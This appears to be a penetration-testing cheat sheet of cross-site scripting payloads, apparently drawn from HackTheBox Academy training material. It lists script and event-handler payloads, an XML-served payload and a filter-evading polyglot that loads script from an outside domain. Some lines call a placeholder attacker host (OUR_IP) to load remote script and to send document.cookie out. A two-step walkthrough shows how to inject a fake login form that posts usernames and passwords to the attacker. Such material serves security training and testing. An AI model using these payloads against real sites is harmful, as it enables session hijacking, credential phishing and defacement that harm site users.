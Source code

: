 # XSS



| Code                                                                                                                                                                                                                                                                                                                                                                                                  | Description                         |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------- |
| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                               | Basic XSS Payload                   |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                         | Basic XSS Payload                   |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                            | Basic XSS Payload                   |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                           | HTML-based XSS Payload              |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                         | Change Background Color             |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                         | Change Background Image             |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                              | Change Website Title                |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                        | Overwrite website's main body       |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                       | Remove certain HTML element         |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                     | Load remote script                  |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                       | Send Cookie details to us           |
| **`<iframe src=file:///C:/windows/win.ini>`**                                                                                                                                                                                                                                                                                                                                                         | Load remote ini file via iframe tag |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');
</code></pre><p><br></p> | Login Form Injection                |

#### Serve XSS 𝙥𝙖𝙮𝙡𝙤𝙖𝙙 from a XML file

```
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```

#### Sample XSS Polyglot

```
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//ChiragXSS.xSs.ht></scripT>
```

#### **How to perform basic Login Form Injection via Reflected XSS**&#x20;

Step 1: Test vulnerable form for the remove function by running script in console (Dev-Tools)

```
document.getElementById('urlform').remove();
```

Step 2: Inject form into webpage with XSS payload by executing the below script into console (Dev-tools)

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
